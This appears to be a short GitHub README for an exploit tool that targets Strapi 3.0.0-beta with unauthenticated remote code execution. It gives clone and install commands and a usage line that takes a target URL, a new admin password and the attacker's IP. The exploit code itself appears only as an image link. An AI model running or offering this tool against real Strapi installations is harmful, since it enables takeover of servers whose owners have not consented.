 # strapiRCE
Strapi 3.0.0-beta - Remote Code Execution (RCE) (Unauthenticated)

## Tested on:
 - Kali linux 2021.4a
 - Parrot security 4.11.3
 
## Instalation:
```
git clone https://github.com/Invertebr4do/strapiRCE 

cd strapiRCE && chmod +x strapiRCE.py
```

## Usage:
```
./strapiRCE.py <EMAIL> <NEW_PASSWORD> <URL> <YOUR_IP>
```
[![code](https://github.com/Invertebr4do/strapiRCE/blob/main/strapiRCE.png?raw=true "code")](https://github.com/Invertebr4do/strapiRCE/blob/main/strapiRCE.png?raw=true "code")
